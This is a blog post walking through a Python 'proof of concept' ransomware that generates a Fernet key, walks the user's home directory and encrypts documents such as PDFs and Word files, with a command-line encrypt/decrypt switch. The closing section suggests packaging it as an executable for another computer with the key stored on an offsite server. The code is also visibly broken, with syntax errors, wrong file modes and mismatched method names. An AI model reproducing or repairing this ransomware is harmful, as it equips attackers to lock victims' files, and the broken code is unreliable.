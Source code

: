 ```yaml
---
layout: post
title:  "Ransomware Proof of concept"
date:   2020-08-29 6:00:00 +0800
categories: coding
---
```

<img style="width: inherit;" src="http://hits.dwyl.com/dev-yakuza.github.io{{ https://adrianducao.github.io/coding/2020/08/28/proof-of-concept-ransomware.html }}.svg" alt="hit count image"/>

### Ransomware Concept
The basic of ransomware is it encrypts a specified target file extension using with a key that the attacker had setup on a server somewhere to be used later for later decyption process. There are different programming languges you can use for this but the easiest and fastest way to provide a proof of concept is with python. You can check my code repo here [run-some-crypt](https://github.com/AdrianDucao/run-some-crypt).

#### Content
1. generate a key to be used for encryption and decryption
2. write a key file
3. read a key file
4. scanning directory
5. encypt the target files
6. create cli interface

### generate a key to be used for encryption and decryption
Let's begin by importing the OS module since we can use its functions for interactions with the OS, for encryption we can import the [Fernet(Semantic Encrytion)](https://cryptography.io/en/latest/fernet/) Module.
```
  1 import os
  2 from os.path import expanduser
  3 from cryptography.fernet import Fernet

```

create a class and constructor, below that is the generateKey function
```
  5 class Encrypt:
  6 
  7     def __init__(self):
  8 
  9         self.key = None
 10         self.cryptor = None
 11         self.file_ext_targets = ['pdf','doc','docx','ppt','pptx','txt']
 12 
 13     def generateKey(self):
 14 
 15         self.key = Fernet.generate_key()
 16         self.cryptor = Fernet(self.key)

```

### write a key file
now lets create a function to write the key to a file
```
 23     def writeKey(self, key_filename):
 24         with open.(key_filename, 'b') as f:
 25             f.write(self.key)

```

### read a key file
moving on, create a function to read a key from a file
```
 18     def readKey(self, key_filename):
 19         with open(key_filename, 'a') as f:
 20             self.key = f.read()
 21             self.cryptor = Fernet(self.key)

```

### scanning directory
the function below allows you to scan the directories and check for target filename extensions specified earlier on self.file_ext_targets 
```
 28     def mainCrypt(self, root_dir, encrypted = False):
 29         for root, _, files in os.walk(root_dir):
 30             for f in files:
 31                 abs_file_path = os.path.join(root, f)
 32 
 33                 if not abs_file_path('.')[-1] in self.file_ext_targets:
 34                     continue
 35 
 36                 self.crypt_file(abs_file_path, encrypted = encrypted)

```

### encrypt the target files
function to encrypt the specified filename extensions and check if that file has been encrypted or not
```
 38     def encryptFile(self, file_path, encrypted = False):
 39         with open(file_path, 'a+') as f:
 40             _data = f.read()
 41 
 42             if not encrypted:
 43                 data = self.cryptor.encrypt(_data)
 44             else
 45                 data = self.cryptor.decrypt(_data)
 46 
 47             f.seek(0)
 48             f.write(data)

```

### create a cli interface
how it works is that you call the class we created earlier and create a conditional statement where you can specify and action you want to take e.g. encrypt or decrypt files. 
``` 
 51 if __name__ == '__main__':
 52     #all directory
 53     sys_root = expanduser('~')
 54 
 55     #specific target directory
 56     #local_root= '.'
 57 
 58     import argparse
 59     parser = argparse.ArgumentParser()
 60     parser.add_argument('--action', required=True)
 61     parser.add_argument('--keyfile')
 62 
 63 
 64     args = parser.parse_args()
 65     action = args.action.lower()
 66     keyfile = args.keyfile
 67 
 68     lock = Encrypt()
 69 
 70     if action == 'decrypt':
 71         if keyfile is None:
 72             print('Specify path to keyfile after --keyfile')
 73         else:
 74             lock.read_key(keyfile)
 75             lock.mainCrypt(local_root, encrypted=True)
 76     elif action == 'encrypt':
 77         lock.generate_key()
 78         lock.write_key('keyfile')
 79         lock.mainCrypt(sys_root)


```

### Conclusion
After that typing, you're set and done. If you are planning to use this to another computer, you can create an executable file to run this code set an offsite server to host and store the keyfile for later use. Another use case for this is to make a secure encrypted files inside your flash drive or hard drive, as long as you have the keyfile or know the key you're the only one who can open those files. It's not a matter of if but when the quantum computers will comes to age, privacy and secuity through encryption might disappear. 
```
$ python3 crypt.py --action encrypt

$ python3 crypt.py --action decrypt --keyfile /path/keyfile
```

Happy Hunting.